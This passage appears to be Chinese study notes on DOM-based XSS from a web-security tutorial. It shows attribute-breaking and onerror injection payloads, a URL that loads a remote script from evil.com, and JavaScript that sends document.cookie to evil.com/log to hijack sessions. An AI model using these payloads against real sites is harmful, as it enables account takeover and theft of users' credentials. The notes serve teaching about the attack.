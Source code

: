 点击“write”按钮后，会在当前页面插入一个超链接，其地址为文本框的内容：
在这里，“write”按钮的onclick事件调用了test()函数。而在test()函数中，修改了页面的DOM节点，通过innerHTML把一段用户数据当做HTML写入到页面中，这就造成了DOM based XSS。

 2016-04-06

构造如下数据：

```
' onclick=alert(/xss/) //

```
输入后，页面代码就变成了：``<a  href='' onlick=alert(/xss/)//' >testLink</a>``
首先用一个单引号闭合掉href的第一个单引号，然后插入一个onclick事件，最后再用注释符“//”注释掉第二个单引号。

 2016-04-06

实际上，这里还有另外一种利用方式——除了构造一个新事件外，还可以选择闭合掉<a>标签，并插入一个新的HTML标签。尝试如下输入：


```
'><img src=# onerror=alert(/xss2/) /><'
页面代码变成了：
<a href=''><img src=# onerror=alert(/xss2/) /><'' >testLink</a>
脚本被执行：

```

 3.2.1 初探XSS Payload

 2016-04-06

XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的浏览器。这些用以完成各种具体功能的恶意脚本，被称为“XSS Payload”。

 2016-04-06

XSS Payload实际上就是JavaScript脚本（还可以是Flash或其他富客户端的脚本），所以任何JavaScript脚本能实现的功能，XSS Payload都能做到。
一个最常见的XSS Payload，就是通过读取浏览器的Cookie对象，从而发起“Cookie劫持”攻击。
Cookie中一般加密保存了当前用户的登录凭证。Cookie如果丢失，往往意味着用户的登录凭证丢失。换句话说，攻击者可以不通过密码，而直接登录进用户的账户。

 2016-04-06

攻击者先加载一个远程脚本：


```
http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js ></script>


```

真正的XSS Payload写在这个远程脚本中，避免直接在URL的参数里写入大量的JavaScript代码。

 2016-04-06

在evil.js中，可以通过如下代码窃取Cookie：

```
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);

```
这段代码在页面中插入了一张看不见的图片，同时把document.cookie对象作为参数发送到远程服务器。
事实上，`http://www.evil.com/log`并不一定要存在，因为这个请求会在远程服务器的Web日志中留下记录：
